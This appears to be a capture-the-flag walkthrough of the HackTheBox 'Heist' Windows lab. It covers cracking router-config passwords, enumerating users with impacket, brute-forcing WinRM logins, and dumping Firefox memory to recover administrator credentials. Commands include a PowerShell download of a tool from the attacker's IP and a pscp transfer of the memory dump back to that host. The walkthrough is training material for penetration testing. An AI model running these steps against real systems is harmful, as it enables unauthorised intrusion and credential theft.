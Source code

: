 ```yaml
---
title: "HackTheBox Walkthrough - Heist"
categories:
  - Hackthebox
tags:
  - hackthebox
  - htb
  - impacket
  - winrm
  - pscp
  - windows
classes: wide
---
```


![SplashScreen](https://opalsec.github.io/assets/images/heist/Card.png)

# Overview:

A pretty challenging box that required me to think laterally and use a few tools I wouldn't normally think to pull out. It was a really fun solve, and I learned a lot along the way. Definitely recommend if you're trying to get more experience on Windows machines and exploiting user behaviour.

# Enumeration
Start with an nmap scan to identify listening ports and services:

```
nmap -sS -sV -sC -vv -Pn -oA /home/montana/Documents/hackthebox/heist/allscan 10.10.10.149
```

Providing us with this:
```
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -2m50s, deviation: 0s, median: -2m50s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29066/tcp): CLEAN (Timeout)
|   Check 2 (port 48515/tcp): CLEAN (Timeout)
|   Check 3 (port 25486/udp): CLEAN (Timeout)
|   Check 4 (port 29605/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-25 11:40:08
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 25 11:43:35 2019 -- 1 IP address (1 host up) scanned in 421.73 seconds
```

## Web Page

My first stop is the web page, and here we a login form - helpfully with the option to "Login as guest":
![LoginForm](https://opalsec.github.io/assets/images/heist/LoginForm.png)

Which shows us a conversation chain between a client and support admin:
![Chat](https://opalsec.github.io/assets/images/heist/Chat.png)

Clicking through to the attachment, it shows a router config:
![config](https://opalsec.github.io/assets/images/heist/config.png)

The first two type 7 passwords easily decrypt to:
- $uperP@ssword (rout3r)
- Q4)sJu\Y8qz*A3?d (admin)

After a little research, I found out that the secret 5 password can be cracked by John, so I fired it up:
```
root@kali:/home/montana/Documents/hackthebox/heist# john -wordlist:/usr/share/wordlists/rockyou.txt secret.txt
```

And checked the pot file upon completion to get the password:
```
root@kali:/home/montana/Documents/hackthebox/heist# cat ~/.john/john.pot
$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent
```

Unfortunately the login page only accepts email addresses, and we only have passwords and usernames from the work we just did.

## Digging Deeper

Trying both anonymous logon and combinations of the creds we just dumped didn't work on 445. Going back to the web chat that we saw earlier though, we can see the user Hazard asked the support admin to create an account for him on the Windows server! 

Trying the cracked secret-type creds, we're able to see the account exists:
![hazard](https://opalsec.github.io/assets/images/heist/hazard.png)

Unfortunately there's nothing we can do with that access, so where to from here?

### New box hu dis?

Impacket has an amazing set of python scripts that are part of every pentester's kit. 

The one we'll use is the SID enumeration script - this allows you to enumerate other users on a machine, provided you've got a valid account to authenticate with:
![impacket](https://opalsec.github.io/assets/images/heist/impacket.png)

Now that we've discovered a whole swathe of new users, we can try to bruteforce authentication by creating a list of users and creds that we've found.

# Exploitation 

Metasploit has a useful module under auxiliary/scanner/winrm/winrm_login. This does exactly what we want in that you can point it to a machine's WinRM service, give it a list of creds, and set it loose.

It quickly shows that we've got a valid set of creds to use to initiate a WinRM session with:
![winrm](https://opalsec.github.io/assets/images/heist/winrm.png)

## User
In order to use this, there's a great tool called evil-winrm, which you can download [here](https://github.com/Hackplayers/evil-winrm "Evil WinRM")

It's simple to use, and gets us an interactive session:
![session](https://opalsec.github.io/assets/images/heist/session.png)

## Root
As part of my enum process, I like to look at the running processes to see if there's anything anomalous that might be of interest:
```
Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id
```
![procs](https://opalsec.github.io/assets/images/heist/procs.png)

Firefox stands out in this instance, as you wouldn't expect to see a browser running on a server.

The easiest way to snoop on what's going on in those processes is to dump them, so I download [Windows' procdump utility](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump "Procdump") to my Kali machine; host it with Python's Simple HTTP Server, and retrieve it on the victim:

```
Simple HTTP Server (starts on Port 8000 by default):
$> python -m SimpleHTTPServer

Retrieving the file with PowerShell:
PS> powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24:8000/procdump64.exe', 'C:\Users\chase\Documents\procdump64.exe')"
```

I then use it to dump the Firefox processes like so:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> ./procdump64.exe -ma -accepteula 6216 firefox_6216.dmp                                                                                            
                                                                                                                                                                        
ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com                                                                    

[06:30:02] Dump 1 initiated: C:\Users\Chase\Documents\firefox_6216.dmp
[06:30:02] Dump 1 writing: Estimated dump file size is 470 MB.
[06:30:02] Dump 1 complete: 470 MB written in 0.6 seconds
[06:30:02] Dump count reached.
```

And in order to retrieve them, I use [pscp](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html "Putty SCP"). I ran into a few issues with pscp not prompting me for input to trust the remote host and input the password, but I got around it by using the below syntax:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> echo y | ./pscp.exe -pw <password> C:\Users\Chase\Documents\firefox_6216.dmp montana@10.10.14.24:/home/montana/Documents/hackthebox/heist

### Echoing "y" accepted the remote host as trusted, and the -pw parameter bypassed the need to interactively enter the password when connecting
```

Now with the files back on Kali, I used grep to search for the "password" string:
![grep](https://opalsec.github.io/assets/images/heist/grep.png)

And inspect the file the string was found in:
![less](https://opalsec.github.io/assets/images/heist/less.png)

Searching within the file, I can see the Admin user's creds in cleartext, being used to authenticate to the web forum:
![rootpw](https://opalsec.github.io/assets/images/heist/rootpw.png)

Finally, I drop out of the existing User WinRM session, and authenticate with the Admin creds:
```
root@Cortana:/opt/evil-winrm# ruby evil-winrm.rb -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
```

And we find the final flag on the Admin's Desktop:
![flag](https://opalsec.github.io/assets/images/heist/flag.png)

### By the way...
PowerShell does have the ability to search for a string in a file, but I didn't want to do that for several reasons

1. Searching for the string "password" in a memory dump for a browser process would likely provide dozens of results, as it'd parse the HTML of pages that were loaded and give a bunch of false positives;
2. It's best not to do computationally expensive things on the victim machine - both because it could use enough resources to cause lag and prompt the user to check what's going on, but also because it could crash the box if it's already running at high load;
3. If this were an actual engagement, the dump would be an important piece of evidence for use in results, so you'd want a copy on your workstation anyway for posterity.

I get that this was a virtual lab, but since I'm using it as practice for real-world scenarios, I think it's best to practice OpSec whenever possible. 